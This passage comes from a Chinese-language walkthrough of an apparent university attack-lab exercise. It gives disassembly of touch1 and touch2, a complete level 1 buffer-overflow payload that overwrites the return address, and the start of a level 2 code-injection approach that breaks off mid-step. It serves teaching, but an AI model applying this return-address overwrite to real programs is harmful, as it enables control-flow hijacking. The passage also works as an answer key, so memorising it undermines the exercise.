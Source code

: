 	```
    00000000004017c0 <touch1>:
    4017c0:       48 83 ec 08             sub    $0x8,%rsp
    4017c4:       c7 05 0e 2d 20 00 01    movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
    4017cb:       00 00 00
    4017ce:       bf c5 30 40 00          mov    $0x4030c5,%edi
    4017d3:       e8 e8 f4 ff ff          callq  400cc0 <puts@plt>
    4017d8:       bf 01 00 00 00          mov    $0x1,%edi
    4017dd:       e8 ab 04 00 00          callq  401c8d <validate>
    4017e2:       bf 00 00 00 00          mov    $0x0,%edi
    4017e7:       e8 54 f6 ff ff          callq  400e40 <exit@plt>
   ```

   0x4017c0就是touch1的首地址只需要放到返回地址中

3. 最终的1.txt文件就是

   ```
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   c0 17 40 00 00 00 00 00
   ```

### level 2

要求:返回到函数touch2，并且%rdi要携带cookie

思路:首先将`moveq cookie，%rdi`然后再返回到touch2函数，这里最难的其实是思路的转变，因此我建议直接看，理解后自己完成level 3

过程：

1. 观察汇编代码：

   ```
   00000000004017ec <touch2>:
     4017ec:       48 83 ec 08             sub    $0x8,%rsp
     4017f0:       89 fa                   mov    %edi,%edx
     4017f2:       c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
     4017f9:       00 00 00
     4017fc:       3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
     401802:       75 20                   jne    401824 <touch2+0x38>
   ```

   0x4017ec就是函数touch2的首地址，但是这时并不能直接返回因为我们还需要完成`moveq cookie，%rdi`

2. 

   ```shell
   vi 2.s
   ```
